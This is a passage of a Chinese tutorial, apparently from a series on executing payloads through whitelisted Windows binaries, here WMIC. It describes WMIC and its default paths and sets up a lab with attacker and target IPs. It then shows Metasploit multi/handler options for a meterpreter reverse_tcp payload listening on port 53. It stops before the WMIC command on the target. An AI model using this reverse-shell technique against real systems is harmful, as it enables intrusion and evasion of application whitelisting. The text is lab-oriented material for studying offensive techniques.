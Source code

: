 ### 11.10 基于白名单Wmic执行payload（十）

**Wmic简介：**

WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具），提供了从命令行接口和批命令脚本执行系统管理的支持。在WMIC出现之前，如果要管理WMI系统，必须使用一些专门的WMI应用，例如SMS，或者使用WMI的脚本编程API，或者使用象CIM Studio之类的工具。如果不熟悉C++之类的编程语言或VBScript之类的脚本语言，或者不掌握WMI名称空间的基本知识，要用WMI管理系统是很困难的。WMIC改变了这种情况。

说明：Wmic.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Wmic调用。

Windows 2003 默认位置：

    C:\WINDOWS\system32\wbem\wmic.exe
    C:\WINDOWS\SysWOW64\wbem\wmic.exe
    
        

Windows 7 默认位置：

    C:\Windows\System32\wbem\WMIC.exe
    C:\Windows\SysWOW64\wbem\WMIC.exe
    
        

攻击机：-
192.168.1.4 Debian

靶机：-
192.168.1.119 Windows 2003-
192.168.1.5 Windows 7

**配置攻击机msf：**

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, proce ss, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port 
    
    Exploit target: 
    
    Id Name
    
    ‐‐ ‐‐‐‐
    
    0 Wildcard Target 23
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160634279.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**-
Windows 7：
